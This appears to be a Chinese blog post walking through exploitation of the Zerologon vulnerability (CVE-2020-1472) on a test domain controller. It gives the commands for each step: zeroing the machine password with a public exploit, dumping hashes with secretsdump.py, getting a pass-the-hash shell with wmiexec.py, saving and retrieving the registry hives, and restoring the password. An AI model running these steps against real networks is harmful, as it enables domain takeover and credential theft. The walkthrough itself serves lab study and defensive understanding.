


# CVE-2020-1472 相关杂谈 - goabout2 - 博客园

> 原文：[`www.cnblogs.com/goabout2/p/13676527.html`](https://www.cnblogs.com/goabout2/p/13676527.html)

CVE-2020-1472 是微软八月修复的一个严重的权限提升漏洞(并于昨天 2020 年 9 月 15 日 secura 发布了相关的漏洞细节，随后相关 exp 被构造发布)，通过 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接安全通道时，存在特权提升的利用点，该漏洞的 CVSS 分高达 10 分，攻击者只需要在内网中有一个立足点，就可以远程获取域控的管理员权限。

漏洞的原理这里不在赘述，secura 的 pdf 分析得很好，简单来说就是 Netlogon 使用的 AES 认证算法中的 vi 向量默认为 0，导致攻击者可以绕过认证，同时其设置域控密码的远程接口也使用了该函数，导致可以将域控中保存在 AD 中的管理员 password 设置为空，这里主要说一下整个利用的过程，主要来说为以下几步。

1.  通过漏洞脚本置空域控保存在 AD 中的密码
2.  通过 secretsdump.py 获取域控上的用户 hash
3.  通过该 hash 使用 wmiexec.py 登录域控获取一个 shell
4.  通过 shell 获取本地保存的原 hash key
5.  通过获取的 hash key 恢复置空的域控密码

首先配置好一个测试域控，攻击机上需要 python3.7 以上，同时安装 impacket，impacket 需要安装最新版（v0.0.22.dev1），该版本中更新了函数 NetrServerPasswordSet2，这个函数会在利用中使用，impacket 提供了利用脚本需要使用的库，同时其中包含的 secretsdump.py/wmiexec.py 脚本分别用于密钥的 dump 还原操作及开启一个 shell，这里主要使用以下两个 poc，其中利用置空脚本使用 dirkjanm 提供的（dirkjanm 也提供了相关的置空还原脚本但是我没有成功），而恢复密钥则使用 risksense 提供的版本。

[`github.com/dirkjanm/CVE-2020-1472`](https://github.com/dirkjanm/CVE-2020-1472)

[`github.com/risksense/zerologon`](https://github.com/risksense/zerologon)

首先第一步通过利用脚本将域控保存在 AD 的密码置空，注意该置空操作是对域控服务器有一定影响的，目前来看就是利用后重启回很慢，secura 提到的 dns 服务受影响目前没有遇到。

 

 用 secretsdump.py 通过 Domain Replication Service (DRS)协议获取域控上相关的 hash，其包括 administrator hashes。

 

 通过该 hash 配合 wmiexec.py 完成一次 pass-the-hash attack，登录该 DC 获取一个 shell。

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ad.test.com/Administrator@192.168.209.129

登录效果如下，并执行以下命令，以获取本地保存的原置空 hash。

reg save HKLM\SYSTEM system.save

reg save HKLM\SAM sam.save

reg save HKLM\SECURITY security.save

get system.save

get sam.save

get security.save

del /f system.save

del /f sam.save

del /f security.save

 

通过 secretsdump 解析保存在本地的 nt hash，为其中解析后的$MACHINE.ACC:plain_password_hex 部分。

secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

最后运行 risksense 的恢复脚本将$MACHINE.ACC:plain_password_hex 中的原来 nt hash 恢复，可以看到此时再用 secretsdump.py 尝试获取域控上的用户 hash 已经是失败了。

 

 转载请注明出处

参考链接:

[`github.com/dirkjanm/CVE-2020-1472`](https://github.com/dirkjanm/CVE-2020-1472)

[`github.com/risksense/zerologon`](https://github.com/risksense/zerologon)

[`github.com/VoidSec/CVE-2020-1472`](https://github.com/VoidSec/CVE-2020-1472)

[`www.secura.com/blog/zero-logon`](https://www.secura.com/blog/zero-logon)